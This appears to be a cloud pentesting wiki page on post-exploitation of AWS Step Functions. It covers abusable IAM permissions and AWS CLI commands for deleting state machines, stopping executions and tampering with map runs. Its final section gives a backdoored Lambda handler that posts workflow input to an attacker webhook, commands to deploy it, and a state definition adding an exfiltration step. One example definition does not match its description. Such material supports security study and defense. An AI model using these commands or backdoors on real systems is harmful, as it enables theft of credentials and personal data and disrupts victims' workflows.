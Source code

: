 # AWS - Step Functions Post Exploitation

## Step Functions

For more information about this AWS service, check:

[[../aws-services/aws-stepfunctions-enum.md]]

### `states:RevealSecrets`

This permission allows to **reveal secret data inside an execution**. For it, it's needed to set Inspection level to TRACE and the revealSecrets parameter to true.

![](../../../images/image (348).png)

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

An attacker with these permissions would be able to permanently delete state machines, their versions, and aliases. This can disrupt critical workflows, result in data loss, and require significant time to recover and restore the affected state machines. In addition, it would allow an attacker to cover the tracks used, disrupt forensic investigations, and potentially cripple operations by removing essential automation processes and state configurations.

> [!NOTE]
>
> - Deleting a state machine you also delete all its associated versions and aliases.
> - Deleting a state machine alias you do not delete the state machine versions referecing this alias.
> - It is not possible to delete a state machine version currently referenced by one o more aliases.

```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```

- **Potential Impact**: Disruption of critical workflows, data loss, and operational downtime.

### `states:UpdateMapRun`

An attacker with this permission would be able to manipulate the Map Run failure configuration and parallel setting, being able to increase or decrease the maximum number of child workflow executions allowed, affecting directly and performance of the service. In addition, an attacker could tamper with the tolerated failure percentage and count, being able to decrease this value to 0 so every time an item fails, the whole map run would fail, affecting directly to the state machine execution and potentially disrupting critical workflows.

```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```

- **Potential Impact**: Performance degradation, and disruption of critical workflows.

### `states:StopExecution`

An attacker with this permission could be able to stop the execution of any state machine, disrupting ongoing workflows and processes. This could lead to incomplete transactions, halted business operations, and potential data corruption.

> [!WARNING]
> This action is not supported by **express state machines**.

```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```

- **Potential Impact**: Disruption of ongoing workflows, operational downtime, and potential data corruption.

### `states:TagResource`, `states:UntagResource`

An attacker could add, modify, or remove tags from Step Functions resources, disrupting your organization's cost allocation, resource tracking, and access control policies based on tags.

```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```

**Potential Impact**: Disruption of cost allocation, resource tracking, and tag-based access control policies.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

An attacker who compromises a user or role with the following permissions:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowUpdateStateMachine",
      "Effect": "Allow",
      "Action": "states:UpdateStateMachine",
      "Resource": "*"
    },
    {
      "Sid": "AllowUpdateFunctionCode",
      "Effect": "Allow",
      "Action": "lambda:UpdateFunctionCode",
      "Resource": "*"
    }
  ]
}
```

...can conduct a **high-impact and stealthy post-exploitation attack** by combining Lambda backdooring with Step Function logic manipulation.

This scenario assumes that the victim uses **AWS Step Functions to orchestrate workflows that process sensitive input**, such as credentials, tokens, or PII.

Example victim invocation:

```bash
aws stepfunctions start-execution \
  --state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
  --input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```

If the Step Function is configured to invoke a Lambda like `LegitBusinessLogic`, the attacker can proceed with **two stealthy attack variants**:

---

####  Updated the lambda function

The attacker modifies the code of the Lambda function already used by the Step Function (`LegitBusinessLogic`) to silently exfiltrate input data.

```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
    requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
    return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
  --function-name LegitBusinessLogic \
  --zip-file fileb://function.zip -profile attacker
```

---

#### Add a Malicious State to the Step Function

Alternatively, the attacker can inject an **exfiltration state** at the beginning of the workflow by updating the Step Function definition.

```malicious_state_definition.json
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "OriginalState",
  "States": {
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
      "End": true
    }
  }
}

```

```bash
aws stepfunctions update-state-machine \
  --state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
  --definition file://malicious_state_definition.json --profile attacker
```

The attacker can even more stealthy to update the state definition to something like this 
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "ExfiltrateSecrets",
  "States": {
    "ExfiltrateSecrets": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
      "InputPath": "$",
      "ResultPath": "$.exfil",
      "Next": "OriginalState"
    },
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
      "End": true
    }
  }  
}
 where the victim won't realize the different 

---

### Victim Setup (Context for Exploit)

- A Step Function (`LegitStateMachine`) is used to process sensitive user input.
- It calls one or more Lambda functions such as `LegitBusinessLogic`.

---

**Potential Impact**:  
- Silent exfiltration of sensitive data including secrets, credentials, API keys, and PII.
- No visible errors or failures in workflow execution.
- Difficult to detect without auditing Lambda code or execution traces.
- Enables long-term persistence if backdoor remains in code or ASL logic.

